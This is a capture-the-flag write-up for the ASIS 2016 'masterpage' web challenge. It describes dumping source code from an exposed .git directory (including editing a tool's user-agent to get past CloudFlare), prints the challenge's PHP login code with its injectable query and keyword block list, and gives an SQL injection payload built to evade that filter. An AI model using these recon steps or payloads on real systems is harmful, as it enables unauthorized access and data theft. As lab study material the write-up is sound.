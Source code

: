 # Masterpage writeup SQLi

### Description
We pwned ciphers and web services.. Yet we found another administration page which is now locked.. can you access this page?

### Solution
This solution is inspired by [link](http://corb3nik.github.io/asis%20finals%202016/masterpage/)
`pirate$ dirb https://masterpage.asis-ctf.ir/` and we get `https://masterpage.asis-ctf.ir/.git/HEAD (CODE:200|SIZE:23)`, looks like they forgot to remove .git, so reverse .git directory to extract the last commit.

I found an interesting read about to get the source code from .git directory:[link](https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/). 
Get their script from [github](https://github.com/internetwache/GitTools), fix the curl request cause CloudFlare forbid the default user-agent of many tools(add --user-agent anon to curl in the dumper script, see the inspirational link for more detail) and extract the source code of index.php:
```
<?php
    error_reporting(7);

    /* create table admin(id varchar(255), pw varchar(255), ip varchar(255)); */
    /* get flag */
    require('config.php');
    global $mysql;

    $id = $mysql->filter($_POST['user'], "auth");
    $pw = $mysql->filter($_POST['pass'], "pass"); <-- FAKE filtering
    $ip = $mysql->filter($_SERVER['REMOTE_ADDR'], "hash"); <-- FAKE filtering

    /* resolve ip addr. */
    $dns = dns_get_record(gethostbyaddr($ip));
    $ip = ($dns) ? print_r($dns, true) : ($ip);

    /* mysql filtration */
    $filter = "_|information|schema|con|\_|ha|b|x|f|@|\"|`|admin|cas|txt|sleep|benchmark|procedure|\^";
    foreach($_POST as $_VAR){
        if(preg_match("/{$filter}/i", $_VAR) || preg_match("/{$filter}/i", $ip))
        {
            exit("Blocked!");
        }
    }
    if(strlen($id.$pw.$ip) >= 1024 || substr_count("(", $id.$pw.$ip) > 2)
    {
        exit("Too Long!");
    }

    /* admin auth */
    $query = "SELECT id, pw FROM admin WHERE id='{$id}' AND pw='{$pw}' AND ip='{$ip}';";
    $result = $mysql->query($query, 1);
    if($result['id'] === "admin" && $result['pw'] === $_POST['pw'])
    {
        echo $flag."<HR>";
    }

    echo "<HR>";
    echo "<h1>Please login.</h1><form method=POST><input type=text placeholder=username name=user>&nbsp;<input type=password placeholder=password name=pass><input type=submit name=submit>";
    echo "<HR>";

    //highlight_file(__FILE__);
?>
```

There are two possible approach(unfortunaly the first i cannot try cause i have not a domain, and the second was unfruitful...):
1. Set the SQLi as payload of TXT record of our domain and make a GET request to evade the filter on POST parameters;
2. Evade the second filter with this payload:
`user=&pass=' UNION SELECT INSERT ('aa',2,1,'dmin'),0 %23&pw=0` that return only one row with the id for admin and pw = 0.


